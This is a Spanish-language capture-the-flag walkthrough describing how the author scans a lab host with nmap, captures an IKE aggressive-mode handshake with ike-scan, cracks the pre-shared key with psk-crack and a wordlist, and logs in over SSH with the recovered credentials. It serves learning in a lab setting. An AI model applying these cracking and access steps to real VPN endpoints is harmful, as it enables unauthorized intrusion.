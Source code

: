 
## Enumeración
Empezaremos realizando un escaneo con [[NMAP]] en el cual encontramos abierto el puerto `22/tcp` y el puerto `500/udp`
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`
`nmap -sU -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

En el puerto `500` hay un servicio `ISAKMP Internet Security Association and Key Management Protocol`
Usaremos [[IKE-SCAN]] es una utilidad de línea de comandos para descubrir, identificar (fingerprint) y recopilar información de hosts que hablan IKE (Internet Key Exchange)

Ejecutaremos el siguiente comando:
`ike-scan --aggressive --pskcrack=psk.params`
`--aggresive` -> Envía identidades y parámetros en los primeros mensajes, sin esperar un handshake completo.
`--pskcrack` -> Captura el handshake en Aggressive Mode y lo guarda en `psk.params`

Usaremos [[PSK-CRACK]] Su objetivo principal es intentar adivinar la Pre-Shared Key (PSK)
`psk-crack -d /usr/share/wordlists/rockyou.txt psk.params`
Con `-d` seleccionaremos la wordlist y a continuación le pasaremos el archivo generado anteriormente.

Nos devolverá la password,(key):
`key "freakingrockstarontheroad" matches SHA1 hash 9acd999de926d953c088daf7b69efcfdecbd1893`

El hash lo guardamos en un fichero llamado hash.

Y usamos la herramienta de [[JOHN THE RIPPER]] con el siguiente comando:
`ikescan2john hash`

Y descubrimos que hay usuario `ike`

Accedemos a el por SSH con las credenciales `ike::freakingrockstarontheroad`





